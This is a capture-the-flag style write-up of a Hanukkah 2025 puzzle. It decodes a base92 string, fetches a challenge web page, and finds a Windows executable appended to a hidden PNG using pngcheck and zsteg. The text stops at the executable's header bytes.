




# Bashmach Alpha Hanukkah Challenge - חידת בסמ"ח אלפא לחנוכה

## Riddle

Basmach Alpha released a short set of challenges for Hanukkah of 2025. 
The challenges were advertised [here](https://www.ynet.co.il/digital/technews/article/hysvcdtf11l) and [here](https://www.idf.il/310925).  
The official solution can be found [here](https://www.idf.il/%D7%90%D7%AA%D7%A8%D7%99-%D7%99%D7%97%D7%99%D7%93%D7%95%D7%AA/%D7%97%D7%98%D7%99%D7%91%D7%AA-%D7%91%D7%99%D7%A0%D7%94/2025/%D7%A8%D7%A7-95-%D7%90%D7%A0%D7%A9%D7%99%D7%9D-%D7%94%D7%A6%D7%9C%D7%99%D7%97%D7%95-%D7%9C%D7%A0%D7%A6%D7%97-%D7%90%D7%AA-%D7%97%D7%99%D7%93%D7%AA-%D7%91%D7%A1%D7%9E-%D7%97-%D7%A2%D7%9B%D7%A9%D7%99%D7%95-%D7%94%D7%A4%D7%AA%D7%A8%D7%95%D7%9F-%D7%A0%D7%97%D7%A9%D7%A3/).

> The Big Apple is where I reside,  
> In the Roman empire, I take pride.  
> Beware of the buildings along the crossroads,  
> They may help you decrypt the code.  
> First go to the meeting spot of 8th and 29th.  
> After that go to the corner of the 5th and the 14th.  
> Then navigate to the cross between 7th and 12th and go two steps right.  
> Finally find the one between 7th and 13th and go three steps left.  
> `FCvkQ#c(U]h7p.+W2?1^Wc4RR`

## Solution

Frankly, I didn't really get what they were aiming for in the first riddle. The Big Apple is a nickname for New York, and the numbers
are likely references to streets and avenues there, but I couldn't
find anything interesting at any of the following locations:

 * W 29th St. & 8th Ave
 * 5th Ave & E 14th St.
 * 7th Ave & W 12th St.
 * 7th Ave & W 13th St.

Anyway, taking a look at the ciphertext, it's all printable ASCII on one hand, and includes symbols and punctuation marks on the other hand, so it's worth checking the usual suspects:

 * ROT47
 * XOR
 * Some kind of base conversion (e.g. base64)

Turns out we got lucky and it's base92:

```console
┌──(py_ctf_env)─(user@kali3)-[/media/sf_CTFs/basmach]
└─$ python3 ~/utils/crypto/basecrack/basecrack.py -m -b "FCvkQ#c(U]h7p.+W2?1^Wc4RR"

██████╗  █████╗ ███████╗███████╗ ██████╗██████╗  █████╗  ██████╗██╗  ██╗
██╔══██╗██╔══██╗██╔════╝██╔════╝██╔════╝██╔══██╗██╔══██╗██╔════╝██║ ██╔╝
██████╔╝███████║███████╗█████╗  ██║     ██████╔╝███████║██║     █████╔╝
██╔══██╗██╔══██║╚════██║██╔══╝  ██║     ██╔══██╗██╔══██║██║     ██╔═██╗
██████╔╝██║  ██║███████║███████╗╚██████╗██║  ██║██║  ██║╚██████╗██║  ██╗
╚═════╝ ╚═╝  ╚═╝╚══════╝╚══════╝ ╚═════╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝ v4.0

                python basecrack.py -h [FOR HELP]

[-] Encoded Base: FCvkQ#c(U]h7p.+W2?1^Wc4RR

[-] Iteration: 1

[-] Heuristic Found Encoding To Be: Base92

[-] Decoding as Base92: goramli.bsmch.idf.il



[-] Total Iterations: 1

[-] Encoding Pattern: Base92

[-] Magic Decode Finished With Result: goramli.bsmch.idf.il

[-] Finished in 0.0004 seconds
```

In retrospective the intention was to use the buildings to spell out `XCII`, which is `92`
in Roman Numerals.




We visit `goramli.bsmch.idf.il` and get:

```console
┌──(py_ctf_env)─(user@kali3)-[/media/sf_CTFs/basmach]
└─$ curl 'https://goramli.bsmch.idf.il/' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:146.0) Gecko/20100101 Firefox/146.0'

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Goramli</title>
    <style>
        body {
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
            font-family: Calibri, sans-serif;
        }

        .arabic-text {
            font-size: 100px;
            text-align: center;
        }

        .hidden-link {
            display: none;
        }
    </style>
</head>
<body>
    <div class="arabic-text">من برّا رخام ومن جوّا سخام</div>
    <a class="hidden-link" href="data:image/png;base64,[AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED][AWS_SECRET_REMOVED]AAAAAAAAAAAAAAAAAAAAAAA=" download="hidden_image.png">Hidden image</a>
</body>
</html>
```

There's an Arabic quote there saying "Marble on the outside, soot on the inside" which is the equivalent of "Don't judge a book by its cover" (or in Hebrew, "אל תסתכל בקנקן אלא במה שיש בו").  
So, obviously we should check the sources and find the hidden image.

```console
┌──(py_ctf_env)─(user@kali3)-[/media/sf_CTFs/basmach]
└─$ file hidden_image.png
hidden_image.png: PNG image data, 1171 x 581, 8-bit/color RGBA, non-interlaced

┌──(py_ctf_env)─(user@kali3)-[/media/sf_CTFs/basmach]
└─$ pngcheck -v hidden_image.png
File: hidden_image.png (20957 bytes)
  chunk IHDR at offset 0x0000c, length 13
    1171 x 581 image, 32-bit RGB+alpha, non-interlaced
  chunk sRGB at offset 0x00025, length 1
    rendering intent = perceptual
  chunk gAMA at offset 0x00032, length 4: 0.45455
  chunk pHYs at offset 0x00042, length 9: 3779x3779 pixels/meter (96 dpi)
  chunk IDAT at offset 0x00057, length 3954
    zlib: deflated, 32K window, fast compression
  chunk IEND at offset 0x00fd5, length 0
  additional data after IEND chunk
ERRORS DETECTED in hidden_image.png
```

As we can see, there's additional data after the PNG end.

`zsteg` shows us it's a Windows executable:

```console
┌──(py_ctf_env)─(user@kali3)-[/media/sf_CTFs/basmach]
└─$ zsteg hidden_image.png
[?] 16896 bytes of extra data after image end (IEND), offset = 0xfdd
extradata:0         .. file: PE32+ executable for MS Windows 6.00 (console), x86-64, 3 sections
    00000000: 4d 5a 90 00 03 00 00 00  04 00 00 00 ff ff 00 00  |MZ..............|
    00000010: b8 00 00 00 00 00 00 00  40 00 00 00 00 00 00 00  |........@.......|
    00000020: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
    00000030: 00 00 00 00 00 00 00 00  00 00 00 00 f8 00 00 00  |................|
    00000040: 0e 1f ba 0e 00 b4 09 cd  21 b8 01 4c cd 21 54 68  |........!..L.!Th|
    00000050: 69 73 20 70 72 6f 67 72  61 6d 20 63 61 6e 6e 6f  |is program canno|
    00000060: 74 20 62 65 20 72 75 6e  20 69 6e 20 44 4f 53 20  |t be run in DOS |
    00000070: 6d 6f 64 65 2e 0d 0d 0a  24 00 00 00 00 00 00 00  |mode....$.......|
